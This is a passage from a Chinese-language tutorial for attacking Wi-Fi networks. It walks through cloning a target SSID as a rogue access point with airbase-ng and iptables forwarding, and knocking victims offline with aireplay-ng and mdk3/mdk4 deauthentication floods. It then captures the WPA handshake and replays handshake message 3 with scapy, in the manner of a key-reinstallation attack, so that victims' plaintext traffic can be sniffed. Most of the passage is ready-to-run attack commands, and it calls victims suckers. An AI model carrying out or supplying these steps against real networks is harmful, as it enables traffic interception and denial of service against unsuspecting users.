 重启dnsmasq服务
```
sudo service dnsmasq restart
```
设置iptables进行流量转发:
```
//使用iptables编写规则：

iptables -t nat -A POSTROUTING -s 192.168.199.0/24 -j SNAT --to 192.168.178.99

iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
//对eth0进行源nat
iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
//转发能上网的无线网卡流量
iptables -A FORWARD -p tcp --syn -s 192.168.199.0/24 -j TCPMSS --set-mss 1356
iptables-save //保存
```

sudo airbase-ng -e <target SSID>  -c <channel> <device2> //讲trget SSID更改为目标SSID，并且channel更改成不同的信道

7.但是我们也不能白等新的冤大头连上我们的热点，所以我们可以对目标AP的成员使用断网攻击使其强制掉线重连

aireplay-ng攻击：
```
//先对目标AP进行锁定监听并保存抓到的握手包
sudo airodump-ng <device1> --bssid=<target bssid> --channel=<channel> -w <文件保存路径>
//然后打开一个新的命令窗口进行攻击
sudo aireplay-ng -0 0 -a <target AP BSSID>  -c <target member MAC> <device1>
```

mdk3/mdk4攻击：
```
vi blacklist //创建一个黑名单文件，并且把目标的BSSID填进去
sudo mdk3 <device> d -s 1000 -b blacklist.txt -c <target channel> //执行攻击
//mdk4同理,只需要把mdk3换成mdk4
```
稍等一会后，所有目标均已离线，2.4gAP网络用户断网连接后一般来说都可以直接获取到握手包

8.获取四次握手的数据包
当左上角出现：
[WPA handshake: xxxxxx]

就说明我们拿到了握手包
接着打开wireshak,将上一步的01号数据包到wireshark打开搜索字符串Message
需要找到含有 【key】 的一条数据包，右键选择标记分组，到处特定分组，保存第三条握手包

9. 实行攻击

(1)使用scapy伪造含有CSA(信道切换公告)信标的beacon管理帧，使成员强制连接到钓鱼热点
CSA信息元素：
(2)向成员设备发送3号握手包多次，并允许1、2号握手包通过，阻断4号握手包使其强制安装秘钥

在此演示使用scapy发送三号握手包
```py
sudo scapy //打开scapy

a= rdpcap('key.pcap') # 刚才保存的pcap
send(a)
```
攻击完成，攻击者打开wireshark监听，可以发现成员在目标AP内浏览的所有TCP明文
